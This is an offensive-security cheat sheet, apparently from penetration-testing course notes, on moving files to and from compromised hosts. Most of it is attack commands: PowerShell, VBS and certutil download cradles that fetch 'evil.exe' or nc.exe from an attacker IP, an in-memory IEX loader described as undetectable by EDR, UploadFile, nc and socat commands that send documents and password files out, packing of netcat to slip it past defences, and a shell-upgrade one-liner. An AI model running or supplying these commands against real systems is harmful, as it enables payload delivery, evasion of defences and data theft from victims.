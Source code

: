 ### Using third-party file sharing links
https://www.file.io/  
https://www.gofile.io/

### Powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')" 
powershell -NoProfile -ExecutionPolicy Bypass -NoLogo -NonInteractive -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

d_f.ps1
$webclient = New-Object System.Net.WebClient
$url = "http://10.11.0.4/evil.exe"
$file = "path\new.exe"
$webclient.DownloadFile($url,$file)
PS:IEX (New-Object System.Net.WebClient).DownloadString('path/d_f.ps1') -- Cant be detected by EDR
```
```
upx -9 nc.exe(compress to be smaller)
exe2hex -x nc.exe -p nc.cmd(convert the file to hex and instruct powershell.exe to assemble it back into binary)
```
#### Upload Files using enabled outbound http traffic
```
save upload.php under kali /var/www/html
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
sudo mkdir /var/www/uploads
ps -ef | grep apache
sudo chown www-data: /var/www/uploads
powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'Path/important.docx')
```

### SCP Copy file from remote machine to local tmp
scp john@localhost:/var/tmp/CopyMe.txt /tmp  
scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2  
scp -P 2222 student@192.168.79.112:/usr/share/kali-defaults/web/img/password.png /home/kali/

### NC transfering files
```
nc -lvnp 6666 > incoming.txt
nc -nv 192.168.65.61 6666 < incoming.txt
```

### Socat transfer files
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt  
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

### Pure-ftpd (Linux - Linux)
#### install
sudo apt update && sudo apt install pure-ftpd  
sudo groupadd ftpgroup  
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
sudo pure-pw useradd kali(username) -u ftpuser -d /ftphome  
sudo pure-pw mkdb  
cd /etc/pure-ftpd/auth/  
sudo ln -s ../conf/PureDB 60pdb  
sudo mkdir -p /ftphome  
sudo chown -R ftpuser:ftpgroup /ftphome/  
sudo systemctl restart pure-ftpd  
#### Commands
ftp 10.11.0.4  
bye  
anonymous login:
user:anonymous,password:""
#### Upgrading a Non-Interactive Shell
python -c 'import pty; pty.spawn("/bin/bash")'  
#### mode
bin(binary mode)
ascii(ascii mode)
#### transfer files
```
Authentication first
1. attack machine put files under ftphome dir
2. get filename/put filename
```

### VBS to download files
usage: cscript wget.vbs http://10.11.0.4/evil.exe evil.exe(outfile)
```
strUrl = WScript.Arguments.Item(0)
StrFile = WScript.Arguments.Item(1) 
Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 
Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 
Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 
Const HTTPREQUEST_PROXYSETTING_PROXY = 2 
Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts 
 Err.Clear 
 Set http = Nothing 
 Set http = CreateObject("WinHttp.WinHttpRequest.5.1") 
 If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") 
 If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") 
 If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") 
 http.Open "GET", strURL, False 
 http.Send 
 varByteArray = http.ResponseBody 
 Set http = Nothing 
 Set fs = CreateObject("Scripting.FileSystemObject") 
 Set ts = fs.CreateTextFile(StrFile, True) 
 strData = "" 
 strBuffer = "" 
 For lngCounter = 0 to UBound(varByteArray) 
 ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) 
 Next 
 ts.Close
```
### TFTP to upload files
```
kali: 
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
windows xp, 2003 etc:
tftp -i 10.11.0.4 put important.docx
```
### Certutil(windows has this built-in)
```
certutil.exe -urlcache -split -f http://example.com/a.txt C:\Users\Public\nc.exe
```
